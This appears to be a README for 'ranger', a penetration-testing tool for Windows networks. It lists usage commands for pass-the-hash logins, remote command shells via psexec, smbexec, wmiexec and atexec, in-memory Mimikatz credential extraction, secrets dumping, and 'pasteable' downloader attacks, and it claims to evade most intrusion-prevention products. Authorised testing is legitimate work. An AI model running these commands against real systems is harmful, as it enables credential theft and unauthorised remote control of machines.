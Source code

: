 # ranger
A tool to support security professionals access and interact with remote Microsoft Windows based systems.

This project was conceptualized with the thought process, we did not invent the bow or the arrow, 
just a more efficient way of using it.

Ranger is a command-line driven attack and penetration testing tool, which as the ability to use 
an instantiated catapult server to deliver capabilities against Windows Systems.  As long as a user 
has a set of credentials or a hash set (NTLM, LM, LM:NTLM) he or she can gain access to systems that 
are apart of the trust.

Using this capability a security professional can extract credentials out of memory in clear-text, 
access SAM tables, run commands, execute PowerShell scripts, Windows Binaries, and other tools.  
At this time the tool bypasses the majority of IPS vendor solutions unless they have been custom 
tuned to detect it. The tool was developed using our home labs in an effort to support security 
professionals doing legally and/or contractually supported activities.

More functionality is being added, but at this time the tool uses the community contributions 
from repositories related to the PowerShell PowerView, PowerShell Mimikatz and Impacket teams.  

#Find Logged In Users:
ranger.py [-u Administrator] [-p Password1] [-d Domain] --scout

#SMBEXEC Command Shell:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --smbexec -q -v -vv -vvv

#PSEXEC Command Shell:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --psexec -q -v -vv -vvv

#PSEXEC Command Execution:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --psexec -c "Net User" -q -v -vv -vvv

#WMIEXEC Command Execution:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --wmiexec -c "Net User"

#WMIEXEC PowerShell Mimikatz Memory Injector:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --wmiexec --invoker

#WMIEXEC Metasploit web_downloader Memory Injector:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --wmiexec --downloader

#WMIEXEC Custom Code Memory Injector:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --wmiexec --executor -c "binary.exe"

#ATEXEC Command Execution:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --atexec -c "Net User" --no-encoder

#ATEXEC PowerShell Mimikatz Memory Injector:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --wmiexec --invoker --no-encoder

#ATEXEC Metasploit web_downloader Memory Injector:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --wmiexec --downloader --no-encoder

#ATEXEC Custom Code Memory Injector:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --wmiexec --executor -c "binary.exe" --no-encoder

#SECRETSDUMP Custom Code Memory Injector:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --secrets-dump

#Create Pasteable Mimikatz Attack:
ranger.py --invoker -q -v -vv -vvv

#Create Pasteable web_downloader Attack:
ranger.py --downloader -q -v -vv -vvv

#Create Pasteable Executor Attack:
ranger.py --executor -q -v -vv -vvv

